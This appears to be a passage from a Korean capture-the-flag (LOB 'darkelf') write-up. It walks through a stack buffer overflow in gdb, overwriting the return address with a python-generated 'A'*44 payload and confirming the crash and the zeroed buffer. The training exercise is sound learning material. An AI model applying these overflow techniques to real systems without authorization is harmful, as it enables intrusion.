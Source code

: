 <br>

먼저 main 함수를 디스어셈블하여 strcpy 함수 실행 직후 부분인 `main+242`에 브레이크 포인트를 걸어준다.

다음 `buf+sfp`크기만큼 문자열 `A`로 덮어 씌워주고 `ret` 값을 삽입해 `run`하여 브레이크 포인트에서

스택에 값이 정상적으로 들어갔는지 확인하고 `continue` 해보니 리턴 주소가 `0xbfbfbfbf`로 변조된 것이 확인된다.

```
(gdb) r `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"`
Starting program: /home/wolfman/tmp/./darkelf `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"`

Breakpoint 1, 0x80485f2 in main ()
(gdb) x/40wx $esp
0xbffffaf4:	0xbffffb00	0xbffffc73	0x00000012	0x41414141
0xbffffb04:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb14:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb24:	0x41414141	0x41414141	0xbfbfbfbf	0x00000000
0xbffffb34:	0xbffffb74	0xbffffb80	0x40013868	0x00000002
0xbffffb44:	0x08048450	0x00000000	0x08048471	0x08048500
0xbffffb54:	0x00000002	0xbffffb74	0x08048390	0x0804864c
0xbffffb64:	0x4000ae60	0xbffffb6c	0x40013e90	0x00000002
0xbffffb74:	0xbffffc57	0xbffffc73	0x00000000	0xbffffca4
0xbffffb84:	0xbffffcc6	0xbffffcd0	0xbffffcde	0xbffffcfd
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����

Program received signal SIGSEGV, Segmentation fault.
0xbfbfbfbf in ?? ()
(gdb)
```

<br>

`continue`하여 프로그램이 실행된 직후 `esp-80` 부분을 확인해보니

이전 문제와 같이  `buffer hunter`에 의해 `buf`가 모두 0으로 초기화되었음을 확인할 수 있다.

```
(gdb) x/40wx $esp-80
0xbffffae0:	0x4000ae60	0xbffffb74	0xbffffb28	0x08048613
0xbffffaf0:	0xbffffb00	0x00000000	0x00000028	0x00000012
0xbffffb00:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb10:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb20:	0x00000000	0x00000000	0x41414141	0xbfbfbfbf
0xbffffb30:	0x00000000	0xbffffb74	0xbffffb80	0x40013868
0xbffffb40:	0x00000002	0x08048450	0x00000000	0x08048471
0xbffffb50:	0x08048500	0x00000002	0xbffffb74	0x08048390
0xbffffb60:	0x0804864c	0x4000ae60	0xbffffb6c	0x40013e90
0xbffffb70:	0x00000002	0xbffffc57	0xbffffc73	0x00000000
(gdb)
```

<br>
